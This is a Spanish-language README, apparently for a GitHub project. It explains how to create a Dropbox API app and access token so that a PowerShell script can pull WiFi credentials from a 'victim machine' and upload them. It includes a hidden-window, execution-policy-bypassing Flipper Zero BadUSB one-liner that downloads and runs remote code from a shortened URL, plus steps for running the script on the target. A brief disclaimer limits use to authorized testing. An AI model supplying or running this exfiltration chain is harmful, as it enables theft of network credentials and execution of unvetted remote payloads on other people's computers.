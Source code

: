 # README: Creación y Configuración de una API de Dropbox

## Introducción
Este documento proporciona una guía paso a paso para crear y configurar una API de Dropbox. Se utilizará para automatizar la transferencia de archivos, en particular para la extracción y carga de credenciales WiFi desde un sistema comprometido a Dropbox mediante un script de PowerShell y Flipper Zero.

---

## 1. Creación de una Aplicación en Dropbox
![tuto](IMG/1.png)
### Paso 1: Acceder a Dropbox Developer
1. Ingresa a [Dropbox Developers](https://www.dropbox.com/developers/apps).
2. Inicia sesión con tu cuenta de Dropbox.
3. Haz clic en "Create App".

### Paso 2: Configurar la Aplicación
1. Selecciona "Scoped access".
2. En "Choose the type of access you need", elige "App folder".
3. Asigna un nombre a la aplicación (Ejemplo: `bat_Back_USB`).
4. Haz clic en "Create App".

---

## 2. Configurar Permisos de la Aplicación

### Paso 3: Editar Permisos
1. Dirígete a la pestaña "Permissions".
2. Marca las opciones:
   - "Edit content"
   - "View content"
3. Haz clic en "Submit" para guardar los cambios.

---

## 3. Obtener y Configurar el Access Token

### Paso 4: Generar Access Token
1. Ve a la pestaña "Settings" de tu aplicación.
2. Busca la sección "OAuth 2".
3. Haz clic en "Generate Access Token".
4. Copia el token generado.

### Paso 5: Configurar el Script
1. Abre el archivo `Export-WiFiKeys.ps1`.
2. Busca la línea `db = ""` (aproximadamente en la línea 49).
3. Pega el Access Token entre las comillas dobles.
4. Guarda el archivo.

---

## 4. Métodos de Ejecución del Script
El script `Export-WiFiKeys.ps1` tiene la funcionalidad incorporada para exfiltrar credenciales y subirlas a Dropbox. Se puede ejecutar de dos formas:

### Opción 1: Ejecutar desde Flipper Zero (BadUSB)
1. Guarda el script en Flipper Zero.
2. Configura la variable `db` con el Access Token de Dropbox en el script.
3. Carga el script a través de la interfaz del dispositivo.
4. Abre una terminal en el Flipper Zero y ejecuta el siguiente comando:

   ```powershell
   powershell -w h -ep bypass $db='API_TOKEN';irm https://goo.su/x3RyN | iex
   ```

### Opción 2: Descargar y Ejecutar el Script en la Máquina Víctima
1. Descarga el archivo `Export-WiFiKeys.ps1` en la máquina víctima.
2. Configura la variable `db` con el Access Token de Dropbox en el script.
3. Abre PowerShell con permisos de administrador.
4. Navega al directorio donde se encuentra el script.
5. Ejecuta el script:

   ```powershell
   .\Export-WiFiKeys.ps1
   ```

En ambas opciones, el script extraerá las credenciales WiFi y las subirá automáticamente a Dropbox.

---

## Imágenes de Referencia

1. **Pantalla de creación de la aplicación**.
2. **Selección del tipo de acceso y nombre de la aplicación**.
3. **Configuración de permisos en la pestaña "Permissions"**.
4. **Generación del Access Token en la pestaña "Settings"**.
5. **Edición del archivo `Export-WiFiKeys.ps1` con el token copiado**.
6. **Ejecución del script desde Flipper Zero o Windows**.

---

## Notas Importantes
- Asegúrate de tener suficiente espacio en tu cuenta de Dropbox para el archivo ZIP generado.
- El script debe ejecutarse con permisos de administrador en Windows para acceder a las credenciales WiFi.
- Usa este script solo en entornos de prueba con permisos explícitos.

## Licencia y Descargo de Responsabilidad
Este proyecto está licenciado bajo los términos de la licencia MIT. Consulta el archivo LICENSE para más detalles.

🚨 **Descargo de Responsabilidad**: El uso indebido de este código puede estar sujeto a acciones legales. El usuario es responsable de cumplir con todas las leyes locales y regulaciones aplicables. Este proyecto debe utilizarse únicamente con fines educativos y en entornos de pruebas con permisos explícitos.

